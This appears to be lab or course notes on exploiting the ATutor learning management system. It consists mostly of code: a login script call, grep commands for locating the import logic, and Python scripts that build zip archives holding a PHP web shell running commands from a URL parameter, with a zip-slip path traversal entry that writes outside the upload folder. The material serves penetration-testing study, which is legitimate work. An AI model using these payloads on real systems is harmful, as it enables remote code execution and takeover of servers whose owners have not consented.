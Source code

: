 ```

```
python3 atutor_login.py atutor 8635fc4e2a0c7d9d2d9ee40ea8bf2edd76d5757e
```

```
grep -ir "IMS manifest file is missing" /var/www/html/ATutor --color
grep -ir "addError(" /var/www/html/ATutor --color
grep -ir "NO_IMSMANIFEST" /var/www/html/ATutor --color
```

```
#!/usr/bin/python
import zipfile
import io
#from io import StringIO

def _build_zip():
    #f = StringIO()
    f = io.BytesIO()
    z = zipfile.ZipFile(f, 'w', zipfile.ZIP_DEFLATED)
    z.writestr('poc/poc.txt', str.encode('offsec'))
    z.writestr('shell.php.txt', str.encode('<?php system($_GET[\'cmd\']); ?>'))
    #z.writestr('imsmanifest.xml', str.encode('<validTag></validTag>'))
    z.writestr('imsmanifest.xml', str.encode('invalid xml!'))
    z.close()
    zip = open('poc1.zip','wb')
    zip.write(f.getvalue())
    zip.close()

_build_zip()

```


```
sudo find / -name "poc.txt"
```

##### Escaping Jail

```
#!/usr/bin/python
import zipfile
import io
#from io import StringIO

def _build_zip():
    #f = StringIO()
    f = io.BytesIO()
    z = zipfile.ZipFile(f, 'w', zipfile.ZIP_DEFLATED)
    #z.writestr('poc/poc.txt', str.encode('offsec'))
    z.writestr('../../../../../tmp/poc/poc.txt', str.encode('offsec'))
    z.writestr('shell.php.txt', str.encode('<?php system($_GET[\'cmd\']); ?>'))
    #z.writestr('imsmanifest.xml', str.encode('<validTag></validTag>'))
    z.writestr('imsmanifest.xml', str.encode('invalid xml!'))
    z.close()
    zip = open('poc.zip','wb')
    zip.write(f.getvalue())
    zip.close()
